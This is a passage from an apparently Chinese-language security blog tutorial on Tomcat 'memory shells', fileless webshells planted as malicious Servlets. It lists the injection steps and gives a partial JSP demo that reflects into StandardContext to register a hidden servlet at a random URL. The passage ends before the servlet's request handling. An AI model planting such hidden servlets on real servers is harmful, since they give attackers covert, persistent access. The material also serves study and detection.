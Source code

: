 # Web传统内存马

  
  
&lt;!--more--&gt;  
## 传统 Web 内存马  
### Servlet内存马  
想要写一个`Servlet`内存马，需要经过如下步骤  
- 找到`StandardContext`  
- 继承并编写一个恶意`servlet`  
- 创建`Warpper`  
- 设置`Servlet`的`LoadOnStartUp`的值  
- 设置`Servlet`的`Name`  
- 设置`Servlet`对应的`Class`  
- 将`Servlet`添加到`context`的`children`中  
- 将`url`路径和`servlet`类做映射  
Demo  
```java  
&lt;%--  
  Created by IntelliJ IDEA.  
  User: f10wers13eicheng  
  Date: 2025/1/30  
  Time: 下午11:24  
  To change this template use File | Settings | File Templates.  
--%&gt;  
&lt;%@ page import=&#34;java.lang.reflect.Field&#34; %&gt;  
&lt;%@ page import=&#34;javax.servlet.Servlet&#34; %&gt;  
&lt;%@ page import=&#34;javax.servlet.ServletConfig&#34; %&gt;  
&lt;%@ page import=&#34;javax.servlet.ServletContext&#34; %&gt;  
&lt;%@ page import=&#34;javax.servlet.ServletRequest&#34; %&gt;  
&lt;%@ page import=&#34;javax.servlet.ServletResponse&#34; %&gt;  
&lt;%@ page import=&#34;java.io.IOException&#34; %&gt;  
&lt;%@ page import=&#34;java.io.InputStream&#34; %&gt;  
&lt;%@ page import=&#34;java.util.Scanner&#34; %&gt;  
&lt;%@ page import=&#34;java.io.PrintWriter&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.core.StandardContext&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.core.ApplicationContext&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.Wrapper&#34; %&gt;  
&lt;%@ page contentType=&#34;text/html;charset=UTF-8&#34; language=&#34;java&#34; %&gt;  
&lt;html&gt;  
&lt;head&gt;  
    &lt;title&gt;Servlet Demo&lt;/title&gt;  
&lt;/head&gt;  
&lt;body&gt;  
&lt;%  
    try {  
        ServletContext servletContext = request.getSession().getServletContext();  
        Field appctx = servletContext.getClass().getDeclaredField(&#34;context&#34;);  
        appctx.setAccessible(true);  
        ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);  
        Field stdctx = applicationContext.getClass().getDeclaredField(&#34;context&#34;);  
        stdctx.setAccessible(true);  
        StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);  
        String servletURL = &#34;/&#34; &#43; getRandomString();  
        String servletName = &#34;Servlet&#34; &#43; getRandomString();  
        Servlet servlet = new Servlet() {  
            @Override  
            public void init(ServletConfig servletConfig) {}  
            @Override  
            public ServletConfig getServletConfig() {  
                return null;  
            }  
```